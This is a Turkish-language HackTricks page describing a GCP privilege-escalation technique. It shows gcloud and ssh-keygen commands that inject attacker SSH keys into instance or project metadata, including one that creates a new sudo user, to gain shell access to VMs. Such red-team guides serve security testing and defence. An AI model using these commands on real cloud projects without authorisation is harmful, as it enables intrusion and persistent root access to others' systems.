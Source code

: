 # GCP - Özel SSH Metadata Ekle

## GCP - Özel SSH Metadata Ekle

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Metadata'yı Değiştirme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örnekte metadata değişikliği, **bir saldırgan gerekli izinleri elde ederse önemli güvenlik risklerine yol açabilir**.

#### **Özel Metadata'ya SSH Anahtarlarının Dahil Edilmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Misafir Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) üzerinden betikler çalıştırır. Bunun kritik bir bileşeni, **yetkilendirilmiş SSH genel anahtarlarındaki güncellemeleri** kontrol etmek için örnek metadata uç noktasını **düzenli olarak kontrol eden** [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)'dır.

Bu nedenle, bir saldırgan özel metadata'yı değiştirebilirse, daemon'un yeni bir genel anahtar bulmasını sağlayabilir; bu anahtar işlenir ve **yerel sisteme entegre edilir**. Anahtar, **mevcut bir kullanıcının veya `sudo` ayrıcalıkları olan yeni bir kullanıcının** `~/.ssh/authorized_keys` dosyasına eklenir; bu, anahtarın formatına bağlıdır. Ve saldırgan, ana bilgisayarı tehlikeye atabilecektir.

#### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı ekleme**

1. **Örnekteki Mevcut SSH Anahtarlarını İnceleyin:**
*   Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını tanımlayan komutu çalıştırın. Çıktıdaki ilgili bölüm `metadata` altında, özellikle `ssh-keys` anahtarında olacaktır.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH anahtarlarının formatına dikkat edin: kullanıcı adı anahtarın önünde, iki nokta ile ayrılmıştır.
2. **SSH Anahtarı Metadata'sı için Bir Metin Dosyası Hazırlayın:**
* Kullanıcı adları ve bunlara karşılık gelen SSH anahtarlarının detaylarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, mevcut anahtarları korumak için gereklidir.
3. **Hedef Kullanıcı için Yeni Bir SSH Anahtarı Oluşturun (`alice` bu örnekte):**
*   Yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın; yorum alanının (`-C`) hedef kullanıcı adıyla eşleştiğinden emin olun.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Yeni genel anahtarı `meta.txt` dosyasına ekleyin, örneğin örneğin metadata'daki formatı taklit ederek.
4. **Örneğin SSH Anahtarı Metadata'sını Güncelleyin:**
*   Güncellenmiş SSH anahtarı metadata'sını `gcloud compute instances add-metadata` komutunu kullanarak örneğe uygulayın.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Yeni SSH Anahtarı ile Örneğe Erişim Sağlayın:**
*   Yeni anahtarı kullanarak SSH ile örneğe bağlanın ve hedef kullanıcı (`alice` bu örnekte) bağlamında shell'e erişin.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Yeni bir ayrıcalıklı kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturmak mümkündür:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Proje düzeyinde SSH anahtarları <a href="#sshing-around" id="sshing-around"></a>

**Proje düzeyinde SSH anahtarları uygulayarak** bulut ortamında birden fazla Sanal Makine (VM) için SSH erişimini genişletmek mümkündür. Bu yaklaşım, projede açıkça proje genelinde SSH anahtarlarını engellemeyen herhangi bir örneğe SSH erişimi sağlar. İşte özet bir kılavuz:

1. **Proje Düzeyinde SSH Anahtarlarını Uygula:**
*   `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine eklemek için `gcloud compute project-info add-metadata` komutunu kullanın. Bu işlem, SSH anahtarlarının projedeki tüm VM'ler tarafından tanınmasını sağlar, eğer bir VM "Proje genelinde SSH anahtarlarını engelle" seçeneğini etkinleştirmemişse.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **Proje Genel Anahtarları Kullanarak Örneklerine SSH Bağlan:**
* Proje genelinde SSH anahtarları mevcut olduğunda, projedeki herhangi bir örneğe SSH ile bağlanabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişim sağlar.
* Bir örneğe SSH ile bağlanmanın doğrudan bir yöntemi, `gcloud compute ssh [INSTANCE]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve proje düzeyinde ayarlanan SSH anahtarlarını kullanarak erişim sağlamaya çalışır.

## Referanslar

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
